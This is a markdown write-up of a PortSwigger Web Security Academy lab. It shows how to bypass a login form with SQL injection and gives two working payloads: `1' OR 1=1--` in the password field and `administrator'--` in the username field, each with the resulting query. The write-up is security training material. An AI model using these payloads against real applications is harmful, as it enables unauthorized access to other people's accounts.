

# Lab: SQL injection vulnerability allowing login bypass

**Platform:** PortSwigger Web Security Academy  
**Category:** SQL Injection  
**Difficulty:** Apprentice

## 🎯 Objective
The application contains a SQL injection vulnerability in the login function. The goal is to perform a SQL injection attack to log in to the application as the `administrator` user.

## 🕵️‍♂️ Analysis
The login function takes a username and password. The backend database likely evaluates a query similar to:
`SELECT * FROM users WHERE username = 'INPUT_USER' AND password = 'INPUT_PASSWORD'`

By injecting SQL into the input fields, we can manipulate the logic of the `WHERE` clause to bypass the authentication check entirely.

## 🚀 Payload & Execution
There are multiple ways to bypass this login depending on which field is injected.

### Method 1: Injecting the Password Field (Global True)
By injecting a mathematically true statement into the password field, the entire `WHERE` clause evaluates to true, returning all users. The application logs us in as the first user returned, which is the administrator.
* **Username:** `admin`
* **Password:** `1' OR 1=1--`
* **Resulting Query:** `SELECT * FROM users WHERE username = 'admin' AND password = '1' OR 1=1--'`

### Method 2: Injecting the Username Field (Targeted)
By injecting the username field and immediately commenting out the rest of the query, the database verifies the specific user account without ever checking the password.
* **Username:** `administrator'--`
* **Password:** *(Anything or blank)*
* **Resulting Query:** `SELECT * FROM users WHERE username = 'administrator'--' AND password = '...'`

## 📸 Proof of Concept
*(Add your screenshot showing the successful login as administrator here)*

